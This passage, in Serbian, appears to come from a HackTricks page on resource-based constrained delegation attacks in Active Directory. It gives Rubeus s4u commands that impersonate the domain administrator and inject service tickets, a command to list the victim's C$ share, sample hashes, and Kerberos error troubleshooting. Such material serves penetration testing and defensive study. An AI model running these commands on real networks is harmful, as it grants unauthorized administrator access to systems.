 ```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

{% hint style="danger" %}
Napomena da korisnici imaju atribut koji se zove "**Ne može biti delegiran**". Ako korisnik ima ovaj atribut postavljen na True, nećete moći da se predstavljate kao taj korisnik. Ova osobina se može videti u Bloodhound-u.
{% endhint %}

### Pristupanje

Poslednja komanda će izvršiti **potpuni S4U napad i ubaciti TGS** od Administratora na ciljni računar u **memoriju**.\
U ovom primeru je zatražen TGS za uslugu **CIFS** od Administratora, tako da ćete moći da pristupite **C$**.

```bash
ls \\victim.domain.local\C$
```

### Zloupotreba različitih uslužnih karata

Saznajte o [**dostupnim uslužnim kartama ovde**](silver-ticket.md#dostupne-usluge).

## Greške u Kerberosu

* **`KDC_ERR_ETYPE_NOTSUPP`**: Ovo znači da je Kerberos konfigurisan da ne koristi DES ili RC4, a vi dostavljate samo RC4 heš. Rubeusu dostavite barem AES256 heš (ili samo dostavite RC4, AES128 i AES256 hešove). Primer: `[Rubeus.Program]::MainString("s4u /user:LAZNOIMEKOMPJUTERA /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Ovo znači da je vreme trenutnog računara različito od vremena DC-a i Kerberos ne radi pravilno.
* **`preauth_failed`**: Ovo znači da dati korisničko ime + heševi ne funkcionišu za prijavljivanje. Možda ste zaboravili da stavite "$" unutar korisničkog imena prilikom generisanja heševa (`.\Rubeus.exe hash /password:123456 /user:LAZNOIMEKOMPJUTERA$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Ovo može značiti:
* Korisnik kog pokušavate da oponašate ne može pristupiti željenoj usluzi (jer je ne možete oponašati ili nema dovoljno privilegija)
* Tražena usluga ne postoji (ako tražite kartu za winrm, ali winrm nije pokrenut)
* Kreirani lažni računar je izgubio privilegije nad ranjivim serverom i morate ih vratiti.

## Reference

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
